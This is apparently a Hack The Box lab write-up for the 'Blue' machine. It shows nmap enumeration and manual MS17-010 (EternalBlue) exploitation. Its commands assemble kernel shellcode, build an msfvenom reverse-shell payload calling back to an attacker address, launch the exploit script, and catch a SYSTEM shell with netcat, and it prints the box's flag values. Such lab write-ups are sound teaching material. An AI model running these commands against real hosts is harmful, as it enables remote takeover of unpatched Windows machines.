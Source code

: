 ```yaml
---
layout: single
title: Blue - Hack The Box
excerpt: "N/A"
date: 2019-04-09
classes: wide
header:
  teaser: /assets/images/htb-writeup-blue/blue_logo.png
  teaser_home_page: true
  icon: /assets/images/windows.png
  unreleased: false
categories:
  - hackthebox
tags:  
  - windows
  - easy
  - eternalblue
  - ms17-010
  - smb
---
```


![](/assets/images/htb-writeup-blue/blue_logo.png){: style="float: right; width: 200px; margin-left: 2em"}

N/A<br><br><br><br><br><br><br>

----------------


# USER
## Enumeration
```bash
[root:/git/htb/blue]# nmap -Pn -n -sCV 10.10.10.40 --open                                                                         (master✱)
  Not shown: 991 closed ports
  PORT      STATE SERVICE      VERSION
  135/tcp   open  msrpc        Microsoft Windows RPC
  139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
  445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
  49152/tcp open  msrpc        Microsoft Windows RPC
  49153/tcp open  msrpc        Microsoft Windows RPC
  49154/tcp open  msrpc        Microsoft Windows RPC
  49155/tcp open  msrpc        Microsoft Windows RPC
  49156/tcp open  msrpc        Microsoft Windows RPC
  49157/tcp open  msrpc        Microsoft Windows RPC
  Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

  Host script results:
  |_clock-skew: mean: 3m40s, deviation: 1s, median: 3m39s
  | smb-os-discovery:
  |   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
  |   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
  |   Computer name: haris-PC
  |   NetBIOS computer name: HARIS-PC\x00
  |   Workgroup: WORKGROUP\x00
  |_  System time: 2021-02-24T13:00:40+00:00
  | smb-security-mode:
  |   account_used: guest
  |   authentication_level: user
  |   challenge_response: supported
  |_  message_signing: disabled (dangerous, but default)
  | smb2-security-mode:
  |   2.02:
  |_    Message signing enabled but not required
  | smb2-time:
  |   date: 2021-02-24T13:00:38
  |_  start_date: 2021-02-24T12:54:58


[root:/git/htb/blue]# nmap -p139,445 --script vuln 10.10.10.40                                                                    (master✱)
  Host script results:
  |_smb-vuln-ms10-054: false
  |_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
  | smb-vuln-ms17-010:
  |   VULNERABLE:
  |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
  |     State: VULNERABLE
  |     IDs:  CVE:CVE-2017-0143
  |     Risk factor: HIGH
  |       A critical remote code execution vulnerability exists in Microsoft SMBv1
  |        servers (ms17-010).
  |
  |     Disclosure date: 2017-03-14
  |     References:
  |       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
  |       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
  |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
```

## Exploit MS17-010
Just like the box `legacy` this device is vulnerable to ms17-010, EternalBlue (as suggested by the box name).
Trying to execute the same exploit and payload however gives us an error, so we need to find another approach.

```bash
[root:/git/htb/blue]# python send_and_execute.py 10.10.10.40 ms17-010.exe                                                         (master✱)
  Trying to connect to 10.10.10.40:445
  Target OS: Windows 7 Professional 7601 Service Pack 1
  Not found accessible named pipe
  Done
```

Assemble the shellcode to binary, here we need to know the architecture (x64 or x86) but Im assuming it's x64 so lets start with that.

```bash
[root:/git/htb/blue]# nasm -f bin eternalblue_kshellcode_x64.asm -o sc_x64_kernel.bin
```

Generate binary payload:
```bash
[root:/git/htb/blue]# msfvenom -p windows/x64/shell_reverse_tcp LPORT=4488 LHOST=10.10.14.10 --platform windows -a x64 --format raw -o sc_x64_payload.bin
  No encoder specified, outputting raw payload
  Payload size: 460 bytes
  Saved as: sc_x64_payload.bin
```
Concentrate payload & shellcode:
```bash
[root:/git/htb/blue]# cat sc_x64_kernel.bin sc_x64_payload.bin > sc_x64.bin
```

Exploit and grab all the flags.
```bash
[root:/git/htb/blue]# python eternalblue_exploit7.py 10.10.10.40 sc_x64.bin                                                       (master✱)
  shellcode size: 1232
  numGroomConn: 13
  Target OS: Windows 7 Professional 7601 Service Pack 1
  SMB1 session setup allocate nonpaged pool success
  SMB1 session setup allocate nonpaged pool success
  good response status: INVALID_PARAMETER
  done


[root:/git/htb/blue]# nc -lvnp 4488                                                                                               (master✱)
  listening on [any] 4488 ...
  connect to [10.10.14.10] from (UNKNOWN) [10.10.10.40] 49158
  Microsoft Windows [Version 6.1.7601]
  Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

  C:\Windows\system32>whoami
    nt authority\system

  C:\Users\haris\Desktop>type user.txt
    4c546aea7dbee75cbd71de245c8deea9

  C:\Users\Administrator\Desktop>type root.txt
    ff548eb71e920ff6c08843ce9df4e717
```

# References
- [ms17-010 EternalBlue manual exploit](https://root4loot.com/post/eternalblue_manual_exploit/)
- [ms17-010 shellcode](https://github.com/worawit/MS17-010/tree/master/shellcode)
  
